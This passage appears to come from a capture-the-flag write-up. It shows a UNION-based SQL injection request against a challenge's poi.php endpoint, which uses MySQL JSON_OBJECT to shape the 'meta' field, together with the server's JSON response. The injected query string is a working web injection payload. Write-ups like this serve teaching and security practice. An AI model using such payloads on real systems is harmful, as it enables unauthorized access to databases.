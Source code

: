   </tbody>
</table>

From the normal request above, we know that the *meta* value could contain another JSON object, so we try to use **JSON_OBJECT** of the MySQL to select some JSON object on the *meta* value. 
<table align="center">
  <thead>
    <tr>
      <th>Request</th>
      <th>Response</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>
        <pre>GET /poi.php?lng_lb=1&lat_lb=1&lng_ub=(select+108)+and+false+union+select+1,2,3,4,5,1,JSON_OBJECT('test',JSON_OBJECT('test2','asd'))+--+-&lat_ub=1 HTTP/1.1
Host: slave2.ctf.arkavidia.id:10021
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://slave2.ctf.arkavidia.id:10021/
        </pre>
      </td>
      <td>
        <pre>HTTP/1.1 200 OK
Date: Sun, 28 Feb 2021 12:02:26 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34
Content-Length: 107
Connection: close
Content-Type: application/json
<br>
[
  {
    "id": "1",
    "lat": "2",
    "lng": "3",
    "name": "4",
    "description": "5",
    "img_uri": "1",
    "meta": {
      "test": {
        "test2": "asd"
      }
    }
  }
]
        </pre>
      </td>
    </tr>
  </tbody>
</table>
